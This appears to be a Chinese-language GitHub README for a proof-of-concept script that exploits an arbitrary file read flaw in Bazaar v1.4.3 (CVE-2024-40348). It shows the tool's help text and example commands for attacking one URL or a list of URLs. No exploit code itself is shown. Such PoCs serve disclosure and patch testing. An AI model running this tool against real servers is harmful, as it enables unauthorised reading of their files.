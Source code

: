 # Bazaar_poc
Bazaar v1.4.3 任意文件读取漏洞(CVE-2024-40348)

python Bazaar_poc.py -h  

                ) (`-.            ) (`-.
         ( OO ).           ( OO ).
        (_/.  \_)-. ,-.-')(_/.  \_)-. ,-.-')
         \  `.'  /  |  |OO)\  `.'  /  |  |OO)
          \     /\  |  |  \ \     /\  |  |  \
           \   \ |  |  |(_/  \   \ |  |  |(_/
          .'    \_),|  |_.' .'    \_),|  |_.'
         /  .'.  \(_|  |   /  .'.  \(_|  |
        '--'   '--' `--'  '--'   '--' `--'

usage: Bazaar_poc.py [-h] [-u URL] [-f FILE]  

Bazaar v1.4.3 任意文件读取漏洞(CVE-2024-40348)  

optional arguments:  
  -h, --help            show this help message and exit  
  -u URL, --url URL     添加url信息  
  -f FILE, --file FILE  添加txt文件  

example:  
    python3 Bazaar_poc.py -u http://xxxx.xxxx.xxxx.xxxx  
    python3 Bazaar_poc.py -f x_url.txt   
